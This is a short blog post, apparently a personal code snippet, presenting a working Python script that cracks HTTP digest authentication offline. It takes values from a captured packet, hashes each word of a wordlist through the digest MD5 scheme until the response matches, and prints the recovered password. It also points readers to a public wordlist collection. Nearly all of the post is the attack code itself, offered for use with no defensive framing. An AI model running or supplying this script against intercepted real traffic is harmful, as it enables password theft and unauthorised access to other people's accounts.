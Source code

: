 ```yaml
---
title: "HTTP Authentication Dictionary Attack"
published: 2018-05-21T07:59:00+12:00

tags: [ "snippet", "security", "python",]
---
```


Here's a little snippet of Python code to crack HTTP digest authentication, getting a user's password given information from a captured packet and a wordlist.

```py
import hashlib

extracted = 'known_auth_hash'
nonce = 'known_nonce_hash'

user = 'known_username'
realm = 'known_realm'
uri = '/image.png'
method = 'GET'

with open('words.txt', 'r') as file:
  for line in file:
    line = line.strip()

    ha1 = hashlib.md5((user+':'+realm+':'+line).encode('utf-8')).hexdigest()
    ha2 = hashlib.md5((method+':'+uri).encode('utf-8')).hexdigest()
    response = hashlib.md5((ha1+':'+nonce+':'+ha2).encode('utf-8')).hexdigest()

    if response == extracted:
      print('success! word was:', line)
      break
```

You can find some good wordlists [right here](https://github.com/danielmiessler/SecLists).
